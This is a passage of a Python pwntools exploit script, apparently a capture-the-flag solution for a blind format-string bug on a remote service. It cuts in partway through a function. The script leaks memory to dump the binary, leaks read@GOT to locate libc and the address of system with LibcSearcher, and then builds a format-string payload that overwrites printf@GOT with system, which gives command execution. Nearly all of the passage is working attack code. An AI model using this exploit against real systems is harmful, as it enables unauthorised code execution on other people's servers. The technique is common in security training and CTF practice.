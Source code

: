 ```py
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
```